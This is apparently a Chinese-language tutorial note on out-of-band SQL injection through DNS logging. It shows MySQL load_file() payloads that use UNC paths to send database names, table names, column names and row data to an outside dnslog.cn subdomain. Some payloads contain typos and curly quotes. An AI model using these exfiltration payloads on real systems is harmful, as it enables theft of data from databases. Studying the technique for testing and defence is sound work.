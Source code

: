 - DNS日志注入（将于域名转换为IP）
- 默认Linux上不能使用，Linux没有SMB服务

### 使用场景

- 在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起请求，这个时候就可以通过DNS请求把数据外带出来，对于SQL盲注，常见的方法就是二分猜解，很麻烦，也很容易请求过多导致被ban，所以可以将select到的数据发送给一个url，利用DNS解析产生的日志查看数据，也就是将盲注转换成显错注入

### 函数

- load_file()
  - 读取文件并返回内容为字符串
    - 文件必须位于服务器主机上，必须制定完整路径的文件
  - load_file的开启
    - mysql.ini中添加`secure_file_priv=`

- UNC路径
  - UNC路径就是Windows有个叫SMB的服务
    - //abc.com/abc   就是访问abc.com下的abc共享文件夹

### 注入

#### 数据库

```mysql
?id=1 and load_file(concat(‘//‘,(select database()),’.cpdvs2.dnslog.cn/abc’))
```

#### 数据表

```mysql
?id=1 and load_file(concat(‘//‘,(select table_name from information_schema.tables where table_schema=database() limit 0,1),’.cpdvs2.dnslog.cn/abc’))
```

#### 字段

```mysql
?id=1 and load_file(concat(‘//‘,(select column_name from information_schema.colmuns where table_name='表名' limit 0,1),’.cpdvs2.dnslog.cn/abc’))
```

#### 数据

```mysql
?id=1 and load_file(concat(‘//‘,(select 字段名 from 表名 limit 0,1),’.nyoi6t.dnslog.cn/abc’))
```